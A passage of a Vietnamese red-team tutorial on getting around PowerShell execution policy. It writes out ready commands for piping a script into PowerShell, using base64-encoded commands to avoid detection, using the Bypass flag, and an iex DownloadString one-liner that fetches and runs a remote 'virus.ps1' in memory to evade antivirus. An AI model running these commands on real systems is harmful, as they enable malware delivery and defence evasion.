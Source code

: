 hoặc bypass thông qua một biến thể khác với `Get-Content`

```powershell 
Get-Content .virus.ps1 | PowerShell.exe -noprofile -
```

### 3. Bypass thông qua Invoke Expression

Kỹ thuật này sử dụng Invoke-Expression (iex) để tải xuống scripts PowerShell từ internet và thực thi trực tiếp nó mà không cần phải ghi vào Disk (kỹ thuật này vô hiệu hóa các phần mềm diệt Virus thông thường)

```powershell
powershell -nop -c "iex (New-Object Net.WebClient).DownloadString ('http://10.0.37.216:8080/virus.ps1')"
```

### 4. Sử dụng EncodeCommand Switch

Kỹ thuật này khá giống với cái cách ta Paste trực tiếp command vào Powershell , nhưng thay vì đó tiến hành encode base64 để giảm thiểu khả năng bị phát hiện bởi người dùng và cũng để tăng tính toàn vẹn cho mã khai thác 

```powershell
$command = "write-output 'Hello, Viblo.asia'" 
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
$encodedCommand = [Convert]::ToBase64String($bytes) 
write-output $encodedCommand 
powershell.exe -EncodedCommand $encodedCommand
```

![](https://images.viblo.asia/6a6dafdc-b23f-4a8c-8654-19dda223ab46.png)


### 5. Sử dụng Execution Policy Flag  

Kỹ thuật này sử dụng  policy của chính Powershell để thực thi mã độc. Đây là phương pháp mình sử dụng nhiều nhất trong quá trình Red Team và Pentest vì tính đơn giản và hiệu quả của nó. Để tiến hành, ta có thể chạy trực tiếp mã khai thác với câu lệnh sau (*với Flag bypass*)

```powershell
powerShell.exe -ExecutionPolicy Bypass -File .virus.ps1
```
Hoặc gián tiếp thông qua Powershell 

```powershell 
 powershell -exec bypass powershell
 .\virus.ps1 
```
![](https://images.viblo.asia/a77c9772-0ec4-4b9c-ac96-6e25fa95358c.png)

Ngoài ra ta có thể sử dụng cách tương tự với các flag `Unrestricted` và `Remote-Signed`.

# Tổng kết
